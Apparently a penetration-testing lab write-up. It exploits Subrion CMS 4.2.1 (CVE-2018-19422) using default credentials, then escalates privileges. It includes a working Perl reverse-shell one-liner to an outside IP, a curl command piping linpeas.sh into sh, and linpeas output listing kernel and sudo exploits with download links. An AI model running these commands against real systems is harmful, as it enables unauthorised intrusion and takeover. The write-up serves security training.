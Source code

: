 
# Exploitation
## CVE-2018-19422 - Subrion CMS 4.2.1 (Arbitrary File Upload)
Used exploit 49876.py with `admin:admin` credentials to achieve webshell, then established a reverse shell with Perl;
![[Pasted image 20241002200817.png]]
Perl reverse Shell
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.198:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
Caught with NetCat Listener on 4444
![[Pasted image 20241002200950.png]]

---
# Privilege Escalation
## Local Enumeration
Attempted access to `/root` folder (permission denied), then downloaded & ran linpeas.sh
`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
![[Pasted image 20241002201246.png]]
> - System info: Linux version 5.4.0-74-generic
> - OS: Ubuntu 20.04.2 LTS (focal)
> - Sudo v1.8.31
> - Exploit suggestions
> [+] [CVE-2021-4034] 	[CVE-2022-2586] nft_object UAF
>    Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
>    Exposure: probable
>    Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
>    Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
>    Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
> 
> [+] [CVE-2021-4034] PwnKit
>    Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
>    Exposure: probable
>    Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
>    Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
> 
> [+] [CVE-2021-3156] sudo Baron Samedit
>    Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
>    Exposure: probable
>    Tags: mint=19,[ ubuntu=18|20 ], debian=10
>    Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
> 
> [+] [CVE-2021-3156] sudo Baron Samedit 2
>    Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
>    Exposure: probable
>    Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
>    Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
> 
> [+] [CVE-2021-22555] Netfilter heap out-of-bounds write
>    Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
>    Exposure: probable
>    Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
